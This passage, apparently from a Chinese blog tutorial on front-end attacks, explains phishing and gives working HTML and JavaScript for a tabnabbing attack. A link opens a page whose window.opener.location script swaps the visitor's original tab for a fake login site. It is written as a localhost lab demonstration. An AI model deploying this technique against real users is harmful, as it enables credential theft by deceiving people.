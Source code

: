 ## 钓鱼

钓鱼也是一种非常古老的攻击方式了，其实并不太算前端攻击。可毕竟是页面级别的攻击，我们也来一起聊一聊。

我相信很多人会有这样的经历，QQ群里面有人发什么兼职啦、什么自己要去国外了房子车子甩卖了，详情在我QQ空间里啦，之类的连接。打开之后发现一个QQ登录框，其实一看域名就知道不是QQ，不过做得非常像QQ登录，不明就里的用户们，就真的把用户名和密码输入了进去，结果没登录到QQ，用户名和密码却给人发过去了。

其实这种方式，在前端也有利用。

下面，我们就来试试如果利用前端进行一次逼真的钓鱼。

1 首先，我们在xx空间里分享一篇文章，然后吸引别人去点击。



```html
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <div>
        当前你在xx空间
        </div>
        <h1>侯博士的分享</h1>
        <section>
        咱们班当年班花，现在长这样：
        <!--这是咱们的钓鱼网站-->
        <a href="http://localhost:8082/lab/fish/cheat.php" target="_blank">点我查看</a>
        </section>
    </body>
</html>
```



![img](https://images2015.cnblogs.com/blog/899904/201612/899904-20161222141301167-1980390330.png)

2 接着，我们在cheat.php这个网站上面，将跳转过来的源网页地址悄悄的进行修改



```html
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
        <script src="https://ss0.bdstatic.com/5aV1bjqh_Q23odCf/static/superman/js/lib/jquery-1.10.2_d88366fd.js"></script>
    </head>
    <body>
        你想看的信息：
        xxxxxxxxxxxxxx
        xxxxxxxxxxxxxx
        <script>
            // 在用户不知情的情况下，对跳转的来源网页进行地址替换
            window.opener.location = 'http://localhost:8082/lab/fish/myfishsite.php';
        </script>
    </body>
</html>
```



于是，在用户访问了我们的欺骗网站后，之前的tab已经悄然发生了变化，我们将其悄悄的替换为了钓鱼的网站，欺骗用户输入用户名、密码等。